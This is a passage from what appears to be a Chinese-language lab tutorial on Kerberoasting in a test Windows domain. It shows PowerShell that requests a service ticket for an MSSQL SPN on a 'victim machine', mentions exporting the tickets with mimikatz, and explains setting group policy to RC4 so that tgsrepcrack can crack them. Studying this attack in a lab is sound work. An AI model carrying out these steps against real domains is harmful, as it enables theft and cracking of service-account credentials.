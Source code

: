 ![](vx_images/3849014177184.png)

2. 在受害机中使用 powershell 请求 TGS

在 powershell 中输入:

```powershell
$SPNName = "MSSQLSvc/win2016-member1.gong.com"
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

![](vx_images/133056100264.png)

3. 使用 mimikatz 查看并导出票据

默认配置加密类型是 aes256_hmac，tgsrepcrack 无法破解，可在服务器组策略指定加密类型为 RC4_HMAC_MD5。
GPO_name\Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options
Network security: Configure encryption types allowed for Kerberos

![](vx_images/1284101128690.png)
